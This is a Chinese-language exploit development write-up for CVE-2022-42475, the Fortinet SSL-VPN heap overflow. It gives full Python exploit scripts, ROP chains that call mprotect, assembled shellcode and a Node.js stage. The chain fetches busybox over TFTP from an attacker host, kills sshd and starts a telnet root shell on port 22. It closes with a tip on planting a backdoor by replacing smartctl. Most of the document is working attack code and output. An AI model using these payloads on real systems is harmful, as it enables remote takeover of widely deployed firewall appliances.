CVE-2022-42475
首先需要进行环境搭建参考获取 shell 进阶
以及调试环境搭建 gdb-server 配置
复现过程
根据文章 https://wzt.ac.cn/2022/12/15/CVE-2022-42475/，可以快速定位到可控制的溢出点，但是不同环境的原因 貌似溢出点地址有变，例如我 init 中在 0000000001780BFB

调试 exp 时建议在此处下断点，不是百分百触发该位置，因为有时会覆盖到其他 结构位置 在赋值时导致错误。
- 确定溢出偏移
为了快速确定偏移，这里建议用 peda 的 pattern 生成 Payload 进行触发

接着当断点触发在 jmp rax 的时候，查看当前 rax 的值计算 offset，通过大量测试基本会存在两种情况偏移会触发到 jmp rax，

分别是 2592,1568，并且 2592 偏移触发几率大于 1568，所以接下来的 exp 构造均在 2592 处，此时我们就可以通过 2592+payload 来控制跳转了
- 栈迁移
由于此时是堆溢出，只能控制一次跳转，我们需要利用栈迁移将栈地址移动到我们可控的位置，通过寄存器信息可以知道目前被溢出的位置有以下几个寄存器，RAX 用来栈迁移，RDX 可控，内容是溢出的字符（截图是 exp 构造后的），R11 可控，内容是溢出字符。

所以我们目标是找到类似 push RDX，pop rsp 或 push r11，pop rsp 的 gadget。接着通过 ropgadget 生成所有的 gadget 并输出到文本（你问我为啥不直接查找？卡到爆！！！）
接着利用命令关联搜索 cat gadget.txt| grep "push rdx"| grep "pop rsp"

发现有一个比较符合的 0x000000000140583a : push rdx ; pop rsp ; add edi, edi ; nop ; ret
接着我们就能将栈迁移到到 rdx 所指的内存处了
- 计算 rdx 可控偏移
那此处计算方式就和上方一致了，通过再次利用 pattern 进行溢出，并计算 rdx 处的偏移，通过计算得到偏移为 2400

- 构造 exp
此时 rdx 内存处可控，正式开始构造 exp，目前的 exp 是基于 busybox 的，不是真正意义上的 exp，但是也是一样的证明了可以任意代码执行。
gadget1 = 0x000000000140583a #
payload = b"B"*2400
#payload += int_to_bytes(0x46bb37) + b"\x00"*5 # : pop rax ; ret
payload += int_to_bytes(0x60b30e)+ b"\x00"*5 # : pop rax ; pop rcx ; ret
payload += int_to_bytes(0x58) + b"\x00"*7 # sell offset
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2a0e1c0) + b"\x00"*4 # add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
payload += int_to_bytes(0x257016a) + b"\x00"*4 #push rdx; pop rdi; ret;
payload += int_to_bytes(0x530c9e) + b"\x00"*5# : pop rsi ; ret
payload += b"\x00"*8 # sell offset 0
payload += int_to_bytes(0x509382) + b"\x00"*5# : pop rdx ; ret
payload += b"\x00"*8 # sell offset 0
payload += int_to_bytes(0x5693D5) + b"\x00"*5 # call system
payload += b"/bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22"+b"\x00"*8
raw = payload+b"A"*(2592-len(payload))
raw += int_to_bytes(gadget1)
简单讲解一下 payload，首先是 pop rax 用处是 存放距离命令字符串的偏移量，这个可以通过调试也能得到。
这里由于调试时发现会在栈中多出个 1 导致 pop rax；ret 后执行地址 1 出现错误，所以需要找一个 pop rax 后早 pop 某个寄存器让这个 1 出栈，最终找到了 pop rax ; pop rcx ; ret，不会影响其他 gadget。
接着调试时发现了一些栈不平衡的问题，利用一些 junk gadget 用来补齐栈
接着 add rdx, rax 得到命令字符串的地址，并存在 rdx 中
最后构造 system(cmd,0,0);进行任意命令执行，这里注意需要控制的三个寄存器 rdi、rsi、rdx
查看一下构造 system 前的寄存器和栈空间

- 多次发送 payload 后会多出一个进程开在 22 端口，通过 telnet 连接上去成功获得 shell

Exp
import socket
import ssl
from struct import pack
def int_to_bytes(n, minlen=0):
""" Convert integer to bytearray with optional minimum length.
"""
if n > 0:
arr = []
while n:
n, rem = n >> 8, n & 0xff
arr.append(rem)
b = bytearray(arr)
elif n == 0:
b = bytearray(b'\x00')
else:
raise ValueError('Only non-negative values supported')
if minlen > 0 and len(b) < minlen: # zero padding needed?
b = (minlen-len(b)) * '\x00' + b
return b
path = "/remote/login".encode()
id = 0
while True:
print("#"+str(id))
#access mem addr 0x164e000 - 0x17a1fff
CL=0x1b00000000
# push rdx ; pop rsp ; add edi, edi ; nop ; ret
gadget1 = 0x000000000140583a
try:
payload = b"B"*2400
#payload += int_to_bytes(0x46bb37) + b"\x00"*5 # : pop rax ; ret
payload += int_to_bytes(0x60b30e)+ b"\x00"*5 # : pop rax ; pop rcx ; ret
payload += int_to_bytes(0x58) + b"\x00"*7 # sell offset
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2a0e1c0) + b"\x00"*4 # add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
payload += int_to_bytes(0x257016a) + b"\x00"*4 #push rdx; pop rdi; ret;
payload += int_to_bytes(0x530c9e) + b"\x00"*5# : pop rsi ; ret
payload += b"\x00"*8 # sell offset 0
payload += int_to_bytes(0x509382) + b"\x00"*5# : pop rdx ; ret
payload += b"\x00"*8 # sell offset 0
payload += int_to_bytes(0x5693D5) + b"\x00"*5 # call system
payload += b"/bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22"+b"\x00"*8
raw = payload+b"A"*(2592-len(payload))
raw += int_to_bytes(gadget1)
#raw += int_to_bytes(gadget2)
data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.109.111\r\nContent-Length: " + str(int(CL)).encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+raw
_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_socket.connect(("192.168.109.111", 4443))
_default_context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
_socket = _default_context.wrap_socket(_socket)
_socket.sendall(data)
sleep(1)
_socket.sendall(b'ls')
res = _socket.recv(1024)
print(res)
#res = _socket.recv(1024)
#if b"HTTP/1.1" not in res:
# print("Error detected")
# print(CL)
# continue
except Exception as e:
pass
id+=1
上述 exp 不能再 real 环境下达到效果，主要原因是调用 system 默认会调用/bin/sh -c cmd 来执行命令，但 real 环境里 sysctl 中没有 sh 功能，导致通过 system 函数无法成功命令。

测试代码
#include <stdio.h>
int main(int argc, char const *argv[])
{
system(argv[1],0,0);
return 0;
}
REAL EXP
由于在 real environment 中 sh 是不存在的，所以我们不能简单使用 system 执行，从而我们将目光转向 exec*家族

可以看到 init 文件中，exec 家族函数还是很全的！！
思考
这里会遇到个问题，我们命令执行要干什么呢？执行/bin/sh 是无用的 那我们还怎么能拿到 shell 呢？
这里我的想法是 给他想办法弄一个 busybox ？可以考虑方式 1. 分析/bin/中有什么可以传输文件的程序 2.rop 写一个文件写入的 gadget，并且传输过去文件
最终我采用方式 1 ，原因是方式 2 传输文件可能会让输入过长 导致 socket 断开 等一系列网络问题
构造执行 rop
这里需要知道 exec*家族有两大派系，一种是参数传参，另一种是数组传参
#include <unistd.h>
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char *const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
通过编写了个 demo 程序熟悉一下调用方式,这里用的是参数传参，原因是我想直接 rop 到寄存器然后执行
#include <stdio.h>
#include <unistd.h>
gcc -g test.c -static -o test
void main()
{
execl("/bin/tftp","/bin/tftp", "192.168.109.128", "busybox", "get", "octet", "/sbin/busybox", NULL);
}
查看 ida

通过 ida 也可以再熟悉一下 x64 的调用顺序
rdi rsi rdx rcx r8 r9 stack stack+8 .....
那我们需要写一个 rop chain，至少需要以下 gadget
获取rsp地址 并且能计算rsp偏移
例如 mov reg, rsp;ret, add reg ,offet; ret
或者 push rps; ret pop reg; ret , add reg, offet; ret
将栈中地址传递到寄存器中
至少需要 pop rdi；pop rsi；pop rdx；pop rcx; pop r8;pop r9
call exec* 这个程序中都有
当能构造出这些参数时会遇到问题，栈中字符串问题：
当字符串 byte>8 时，直接放在栈中会导致占空间额外多出一个部分
例如我 rop 中放入字符串 192.168.109.128 则栈中 rsp 部分确实是 该字符串，但 rsp+8 的位置却变成了 109.128
这个问题会导致我们构造参数时会多出不可控的字符串。导致如果考虑 char 列表来调用的话 rop chain 会修改的非常麻烦！！！非常非常麻烦！
从而目光转向寄存器传参的方式，该方式也存在问题
- 寄存器传参 rop 时 越向后构造越会出现没有好用的 gadget 的情况，因为你不能破坏前面几个参数
- rop 时字符串地址会和上一种方式相同 会出现字符串地址连续的情况，但该情况可以通过多次 rop 将字符串分割，并且多次计算 rsp 地址得到
此时 我的想法是 如何能得到非常够用的 gadget 呢？最好的情况就是能执行 shellcode 因为这样就可以满足条件一以及轻松的满足条件二
ROP2mprotect
熟悉的 ctf 技巧，想办法将 rop 转化为 ret2shelllcode，尝试在 init 中搜索 mprotect 函数，可以看到存在，并且存在两处调用，这非常有用，这样我们就可以在 rop 是直接到这两处地址的位置调用 call _mprotect 了

但要注意我们还是需要 rop 构造 mprotect 参数，首先 为了后续更好的继续执行 shellcode，我们需要确定当前输入的栈空间地址，由于我们是 rop，最好不要出现固定地址，防止不同环境下可能无法通用的情况，所以我们要么选择 leak，要么选择 rop 中通过 push rsp，pop reg 的方式获得当前栈地址，同时理由 add reg，offse 的方式来控制地址具体的位置

在溢出点位置 查看 proc map，这里首先要考虑的能读写的位置，接着最好是现有可控的空间
此时，可控的空间是 RDX 所指向的内存地址，他所属的内存段为 0x7f6de0b2a000，我们需要将此内存空间赋予执行权限，并 rop ret 到该地址 从而达到 ret2shellcode 的步骤

所以这段 rop 就可以构造了
payload = b"B"*2400
payload += int_to_bytes(0x60b30e)+ b"\x00"*5 # : pop rax ; pop rcx ; ret
payload += int_to_bytes(0xfffffffffffa9688) # offset
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2a0e1c0) + b"\x00"*4 # add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
payload += int_to_bytes(0x257016a) + b"\x00"*4 # #push rdx; pop rdi; ret;
payload += int_to_bytes(0x530c9e) + b"\x00"*5 # : pop rsi ; ret
payload += int_to_bytes(0x258000) + b"\x00"*5
payload += int_to_bytes(0x509382) + b"\x00"*5 # : pop rdx ; ret
payload += int_to_bytes(0x7) + b"\x00"*7
payload += int_to_bytes(0x1537F26) + b"\x00"*4 # jmp _mprotect
简单说明一下这段 gadget
pop rax 用来存放偏移地址，用来微调 rsp 的
Pop rcx 是由于栈空间多出了个 1，无用数据需要出栈
接着是 offset，用于计算 proc map base address 的，就是当前栈的 rsp 与当前内存段其实地址的偏移，由于下面用到的 add gadget 所以这里要用负数
Junk op 不做实际操作
Add rdx， rax 计算 rsp 的偏移 准备给他执行权限
Pop rdi 作为 mprotect 的第一个参数 ：地址
Pop rsi 作为 mprotect 的第二个参数： 赋予多大的空间 len
Pop rdx 作为 mprotect 的第三个参数：赋予的权限 7 = r w x
接着 调用现有的 gadget，jmp mprotect 执行赋予权限

rop 后查看当前内存，发现多出了一段可执行内存。
Ret2shellcode
我们成功得到了可执行的内存空间，那接下来 只需要 ret 到这里就可以了，具体 ret 到哪里需要我们通过向后填充 shellcode，并在调试时计算出 offset 之后再跳转过去，而不是直接跳转，所以这里我们执行完后还需要再构造一段计算 offset 的 rop chain
payload += int_to_bytes(0x46bb37) + b"\x00"*5 # pop rax ; ret
payload += int_to_bytes(0x56a40) + b"\x00"*5 # offset to stack
payload += int_to_bytes(0x7d4f4d) + b"\x00"*5 # add rax, rdi ; ret
payload += int_to_bytes(0x43dccc) + b"\x00"*5 # push rax ; ret
同样利用 rax 存 offset 微调 rsp
rdi 是 当时计算后的 base mem 地址
最后把计算出的 shellcode 地址 压栈 ret
参考下图 ，rax 存的是 shellcode 的地址，并且已经将该地址压栈执行

Shellcode 构造
此时我们解决的 gadget 不足的问题，可以随心所欲的编写调用了，为了更好的控制参数，我们选用 寄存器的方式传参，这里还要注意 我们不能直接在 shellcode 中调用 exec 家族，当然你可以 syscall，但是这里我选择 ret2shellcode 中只负责构造参数部分，具体执行 exec 的事情交给接下来的工作。
from pwn import *
context(log_level='debug', arch='amd64', os='linux')
def bytes2stack_bytes(bytes):
stack_str = "0x"
swap_data = bytearray(bytes)
swap_data.reverse()
for i in swap_data:
t = hex(i)[2:]
stack_str+=t
return stack_str
def gen_shellcode_download_file():
save_path = bytes2stack_bytes(b"/sbin/bu")
arg2 = bytes2stack_bytes(b"octet")
arg1 = bytes2stack_bytes(b"get")
filename = bytes2stack_bytes(b"1.js")
ip_addr2 = bytes2stack_bytes(b"109.128")
ip_addr1 = bytes2stack_bytes(b"192.168.")
cmd_path2 = bytes2stack_bytes(b"p")
cmd_path1 = bytes2stack_bytes(b"/bin/tft")
shellcode = asm('''
sub rsp,0x1000
push 0
mov rbx, {}
push rbx
mov r9, rsp
mov rbx, {}
push rbx
mov r8, rsp
mov rbx, {}
push rbx
mov rcx,rsp
mov rbx, {}
push rbx
mov rbx, {}
push rbx
mov rdx,rsp
mov rbx,{}
push rbx
mov rbx,{}
push rbx
mov rsi,rsp
mov rdi,rsp
push 0
mov rbx,{}
push rbx
mov r10, rsp
add rax, 0x90
mov rsp, rax
push r10
sub rsp, 0x8
nop
ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path))
print(shellcode)
print(len(shellcode))
def gen_shellcode_execl():
# execl("/bin/node","/bin/node","/sbin/bu")
js_path = bytes2stack_bytes(b"/sbin/bu")
bin_path2 = bytes2stack_bytes(b"e")
bin_path1 = bytes2stack_bytes(b"/bin/nod")
shellcode = asm('''
sub rsp,0x1000
mov rcx, 0
mov rbx, {}
push rbx
mov rdx,rsp
mov rbx,{}
push rbx
mov rbx,{}
push rbx
mov rsi,rsp
mov rdi,rsp
add rax, 0x40
mov rsp, rax
nop
nop
nop
ret
'''.format(js_path, bin_path2, bin_path1))
print(shellcode)
print(len(shellcode))
gen_shellcode_execl()
简单说明一下两段 shellcode，都是在将字符串压栈，然后计算当前的 rsp 地址，并且保存地址到栈的其他位置。由于栈空间的机制，我们字符串压栈最大长度是 8，所以当处理大于 8 的字符串时我们需要分割一下并且从后向前压栈
注意我的 shellcode 开头，将栈又做了个迁移，这个原因是此时 ret2shellcode 的地址与栈地址重叠 如果不这么做，会导致你压栈的数据破坏掉了原有的 shellcode，导致无法继续执行，所以需要再开辟一段新的占空间，这里选择还是 ssl 结构体中的位置，因为此时数据均为 00000。
之后就正常构造参数，并要确定参数位置均正确，但不要忘记！！！我们 shellcode 最终位置需要执行 ret，但是 ret 去哪里呢？我们还需要计算一下接下来的 rop 所存内存地址与当前可控地址的偏移，并且这段计算需要提前放在 shellcode 中。
这里还有个坑点!!!
就是最上述中说的，寄存器参数并不够，还有两个参数需要在栈中，注意是这指向这两个参数的地址在栈中，！！！不是字符串！！！ 其他寄存器参数也同样是参数的地址 而不是字符串！！！！
以及这两个字符串地址并不是压在 shellcode 所在的栈中，而是需要在计算出 rop 处地址后的下一个地址，原因在 ret 后栈空间会跑到 rop 所处地址，此时栈的 rsp 是 rop gadget+8 的位置，那在 shellcode 中则需要先计算出 gadget+8 的地址并且压入栈中后在 ret 过去
push 前：

push 后，可以看到 push 是将字符串压栈进了 c8 的位置，而不是 d0，这里是需要注意的

ret 前的堆栈 + 寄存器信息，可以看到满足调用布局

最终成功下载到文件（左侧是最终执行 execv 前的栈空间信息，右侧是成功下载文件的实例）

接着通过 node 文件去构造文件下载及后续 getshell 的方法
Nodejs shellcode
当下载下来发现，原来通过 tftp 下载下来的文件 只有读写权限！！并没有执行权限！！！那我们并不能直接 busybox 或者其他 backdoor 程序，因为不能执行。
当然此处的标题就是解决方法了，在搜索时发现飞塔居然内置了个 nodejs！通过测试发现 nodejs xx.js 是可执行的，并且 nodejs 也存在修改文件权限的函数，那此时思路就更清晰了
- 通过之前的命令执行下载 shell.js
- shell.js 中至少要包含以下功能
- 一：下载 busybox （比之前的操作简单多了！）
- 二：给 busybox 执行权限
- 三：弄一个 busybox 的 shell 软链
- 四：调用 busybox 中内置的命令 起 shell
最终成功构造出以下 shellcode
var fs = require('fs');
const https = require('https')
const { execFile, execFileSync } = require('child_process');
function exp() {
const file2 = '/bin/ash';
fs.access(file2, fs.constants.F_OK, (err) => {
if (err) {
try{
const res = fs.symlinkSync('/sbin/busybox','/bin/ash');
console.log('ash create success');
}catch(ex){
console.log('ash create error' + ex);
}
}else {
console.log('ash already created');
}
});
const stdout1 = execFileSync('/bin/killall', ['sshd']);
const stdout2 = execFileSync('/sbin/busybox', ['telnetd', '-l', '/bin/ash', '-b', '0.0.0.0', '-p','22']);
console.log(stdout1);
console.log(stdout2);
console.log('shell process create success');
}
const file1 = '/sbin/busybox';
fs.access(file1, fs.constants.F_OK, (err) => {
if (err) {
try{
execFile('/bin/tftp', ['192.168.109.128','busybox','get', 'octet', '/sbin/busybox'], (err, stdout, stderr) => {
if(err) {
console.log(err);
return;
}
console.log('download success');
fs.chmodSync('/sbin/busybox', 777);
console.log('chmod success');
exp();
});
}catch(ex){
console.log('ash create error' + ex);
}
}else {
console.log('busybox already download');
exp();
}
});
最终 再次利用命令执行执行 nodejs 1.js 成功完成利用
什么？你突然产生疑问？tftp 服务器怎么搭建呢？？
TFTP 服务器搭建
sudo apt-get install xinetd
sudo apt-get install tftp tftpd
sudo vim /etc/xinetd.d/tftp
修改配置文件，主要改目录
service tftp
{
socket_type = dgram
protocol = udp
wait = yes
user = root
server = /usr/sbin/in.tftpd //服务程序路径
server_args = -s /home/ios/tftpboot/ //可以访问的tftpd服务器下的目录
disable = no //是否开机启动
per_source = 11
cps = 100 2
flags = IPv4
}
新建目录
mkdir /home/ios/tftpboot/
接着把需要用到的两个文件复制进去
cp busybox /home/ios/tftpboot/
cp 1.js /home/ios/tftpboot/
搞定
最终稳定的 Real EXP！！！
import socket
import time
import ssl
from struct import pack
def int_to_bytes(n, minlen=0):
""" Convert integer to bytearray with optional minimum length.
"""
if n > 0:
arr = []
while n:
n, rem = n >> 8, n & 0xff
arr.append(rem)
b = bytearray(arr)
elif n == 0:
b = bytearray(b'\x00')
else:
raise ValueError('Only non-negative values supported')
if minlen > 0 and len(b) < minlen: # zero padding needed?
b = (minlen-len(b)) * '\x00' + b
return b
def setp1():
print("current step: download 1.js")
path = "/remote/login".encode()
CL=0x1b00000000
# push rdx ; pop rsp ; add edi, edi ; nop ; ret
gadget1 = 0x000000000140583a
try:
payload = b"B"*2400
payload += int_to_bytes(0x60b30e)+ b"\x00"*5 # : pop rax ; pop rcx ; ret
payload += int_to_bytes(0xfffffffffffa9688) # offset
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2a0e1c0) + b"\x00"*4 # add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
payload += int_to_bytes(0x257016a) + b"\x00"*4 # #push rdx; pop rdi; ret;
payload += int_to_bytes(0x530c9e) + b"\x00"*5 # : pop rsi ; ret
payload += int_to_bytes(0x258000) + b"\x00"*5
payload += int_to_bytes(0x509382) + b"\x00"*5 # : pop rdx ; ret
payload += int_to_bytes(0x7) + b"\x00"*7
payload += int_to_bytes(0x1537F26) + b"\x00"*4 # jmp _mprotect
payload += int_to_bytes(0x46bb37) + b"\x00"*5 # pop rax ; ret
payload += int_to_bytes(0x56a40) + b"\x00"*5 # offset to stack
payload += int_to_bytes(0x7d4f4d) + b"\x00"*5 # add rax, rdi ; ret
payload += int_to_bytes(0x43dccc) + b"\x00"*5 # push rax ; ret
print(len(payload))
raw = payload+b"A"*(2592-len(payload))
raw += int_to_bytes(gadget1) +b"\x00"*4
raw += b'H\x81\xec\x00\x10\x00\x00j\x00H\xbboctet\x00\x00\x00SI\x89\xe1H\xc7\xc3get\x00SI\x89\xe0H\xc7\xc31.jsSH\x89\xe1H\xbb109.128\x00SH\xbb192.168.SH\x89\xe2H\xc7\xc3p\x00\x00\x00SH\xbb/bin/tftSH\x89\xe6H\x89\xe7j\x00H\xbb/sbin/buSI\x89\xe2H\x05\x90\x00\x00\x00H\x89\xc4ARH\x83\xec\x08\x90\xc3'
raw += int_to_bytes(0x161DB33) +b"\x00"*4 # call execl
data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.109.111\r\nContent-Length: " + str(int(CL)).encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+raw
_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_socket.connect(("192.168.109.111", 4443))
_default_context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
_socket = _default_context.wrap_socket(_socket)
_socket.sendall(data)
except Exception as e:
print(e)
def setp2():
print("current step: execute 1.js")
path = "/remote/login".encode()
CL=0x1b00000000
# push rdx ; pop rsp ; add edi, edi ; nop ; ret
gadget1 = 0x000000000140583a
try:
payload = b"B"*2400
payload += int_to_bytes(0x60b30e)+ b"\x00"*5 # : pop rax ; pop rcx ; ret
payload += int_to_bytes(0xfffffffffffa9688) # offset
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2608366) + b"\x00"*4 #junk op, add r13, r8 ; ret
payload += int_to_bytes(0x2a0e1c0) + b"\x00"*4 # add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
payload += int_to_bytes(0x257016a) + b"\x00"*4 # #push rdx; pop rdi; ret;
payload += int_to_bytes(0x530c9e) + b"\x00"*5 # : pop rsi ; ret
payload += int_to_bytes(0x258000) + b"\x00"*5
payload += int_to_bytes(0x509382) + b"\x00"*5 # : pop rdx ; ret
payload += int_to_bytes(0x7) + b"\x00"*7
payload += int_to_bytes(0x1537F26) + b"\x00"*4 # jmp _mprotect
payload += int_to_bytes(0x46bb37) + b"\x00"*5 # pop rax ; ret
payload += int_to_bytes(0x56a40) + b"\x00"*5 # offset to stack
payload += int_to_bytes(0x7d4f4d) + b"\x00"*5 # add rax, rdi ; ret
payload += int_to_bytes(0x43dccc) + b"\x00"*5 # push rax ; ret
print(len(payload))
raw = payload+b"A"*(2592-len(payload))
raw += int_to_bytes(gadget1) +b"\x00"*4
# ret2shellcode
raw += b'H\x81\xec\x00\x10\x00\x00H\xc7\xc1\x00\x00\x00\x00H\xbb/sbin/buSH\x89\xe2H\xc7\xc3e\x00\x00\x00SH\xbb/bin/nodSH\x89\xe6H\x89\xe7H\x83\xc0@H\x89\xc4\x90\x90\x90\xc3'
# rop to execl
raw += int_to_bytes(0x161DB33) +b"\x00"*4 # call execl
data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.109.111\r\nContent-Length: " + str(int(CL)).encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+raw
_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_socket.connect(("192.168.109.111", 4443))
_default_context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
_socket = _default_context.wrap_socket(_socket)
_socket.sendall(data)
except Exception as e:
print(e)
def main():
#step1 = b"tftp 192.168.109.128 1.js get octet /sbin/bu"
for i in range(10):
time.sleep(0.1)
setp1()
#step2 = b"/bin/node /sbin/bu"
time.sleep(10) #wait for sslvpn reboot
for i in range(10):
time.sleep(0.1)
setp2()
main()
可能存在的问题
- 发送 exp 失败，需要低版本的 python+ 低版本的 linux 环境，这里用的是 python2
- exp 没生效？ 可以考虑打完 step1 后等待一段时间 5-10s 后再执行 step2
- 为什么要分开构造 shellcode？为何不一次构造完成
这么考虑的点是这样的，首先执行 execl 后会劫持程序，执行成功后不会返回错误会直接退出程序，而上述 payload 中没有用到 fork 来创建进程，从而程序执行完 execl 后会退出，无法继续跳转回原来的 payload 继续 rop 或者 ret2shellcode。
- 有没有简单的拿后门方法？有替换 smartctl 为你的后门 binary，接着在登录后执行
diagnose hardware smartctl arg1 arg2 ...的方式执行
这里提供一个简单的
#include <stdio.h>
#include <unistd.h>
# gcc -g -static s.c -o s
int main(int argc, char const *argv[])
{
execl(argv[1], argv[1], argv[2], argv[3], argv[4], argv[5], argv[6], NULL);
return 0;
}